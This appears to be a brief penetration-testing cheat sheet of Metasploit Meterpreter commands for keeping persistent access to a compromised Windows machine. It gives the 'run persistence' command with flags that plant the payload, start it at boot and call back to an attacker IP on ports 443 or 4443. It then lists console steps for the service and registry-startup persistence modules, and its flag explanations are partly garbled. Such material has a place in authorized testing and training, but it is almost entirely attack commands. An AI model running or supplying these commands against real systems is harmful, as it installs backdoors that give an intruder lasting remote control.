

meterpreter > run persistence -h
meterpreter >run persistence -A -L c:\\ -X 30 –p 443 –r 192.168.x.x (need high Priv On the system)
run persistence -U -i 5 -p 4443 -r 192.168.x.x
This command then will run the persistence script that will start a matching handler (-A), place the Meterpreter at c:\\ on the target system (-L c:\\), starts the listener when the system boots (-x), checks every 30 seconds for a connection (-i 30), connects on port 443 (-p 443), and connects to the local system (ours) on IP address 192.168.1.X.X
Windows Persistent Service Installer
msf > use exploit/windows/local/persistence_service
msf exploit(persistence_service) > show targets
msf exploit(persistence_service) > set TARGET < target-id >
msf exploit(persistence_service) > show options
msf exploit(persistence_service) > exploit
Windows Persistent Registry Startup Payload Installer
msf > use exploit/windows/local/persistence
msf exploit(persistence) > show targets
msf exploit(persistence) > set TARGET < target-id >
msf exploit(persistence) > show options
msf exploit(persistence) > exploit
